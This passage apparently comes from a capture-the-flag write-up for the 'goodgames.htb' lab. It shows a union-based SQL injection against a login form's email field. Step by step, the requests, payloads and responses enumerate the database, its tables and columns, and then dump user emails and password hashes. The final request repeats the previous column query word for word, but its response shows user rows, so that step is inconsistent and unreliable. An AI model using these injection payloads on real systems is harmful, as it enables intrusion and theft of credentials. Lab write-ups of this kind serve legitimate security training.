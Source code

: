 >   `' union select 1,2,3,4-- -`

There’s 4 columns in the database. Now lets get the database name.

```http
- REQUEST -
POST /login HTTP/1.1
...
email=%27+union+select+1%2c2%2c3%2cdatabase%28%29--+-&password=

- RESPONSE -
...
                   <h2 class="h4">Welcome main</h2>
...
```

>   `' union select 1,2,3,database()-- -`

Now lets view the tables in `main`.

```http
- REQUEST -
POST /login HTTP/1.1
...
email=%27+union+select+1%2c2%2c3%2cconcat%28table_name%2c+%22%2f%22%29+from+information_schema.tables+where+table_schema+%3d+%27main%27--+-&password=

- RESPONSE -
...
                   <h2 class="h4">Welcome blog/blog_comments/user/</h2>
...
```

>   `' union select 1,2,3,concat(table_name, "/") from information_schema.tables where table_schema = 'main'-- -`

The column we are interested in is `user`, so lets view that.

```http
- REQUEST -
POST /login HTTP/1.1
...
email=%27+union+select+1%2c2%2c3%2cconcat%28column_name%2c+%22%2f%22%29+from+information_schema.columns+where+table_schema+%3d+%27main%27+and+table_name+%3d+%27user%27--+-&password=

- RESPONSE -
...
                   <h2 class="h4">Welcome email/id/name/password/</h2>
...
```

>   `' union select 1,2,3,concat(column_name, "/") from information_schema.columns where table_schema = 'main' and table_name = 'user'-- -`

Finally, lets view the users in the table.

```http
- REQUEST -
POST /login HTTP/1.1
...
email=%27+union+select+1%2c2%2c3%2cconcat%28column_name%2c+%22%2f%22%29+from+information_schema.columns+where+table_schema+%3d+%27main%27+and+table_name+%3d+%27user%27--+-&password=

- RESPONSE -
...
1:admin:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec
2:shiro:shiro@gmail.com:5f4dcc3b5aa765d61d8327deb882cf99
...
```
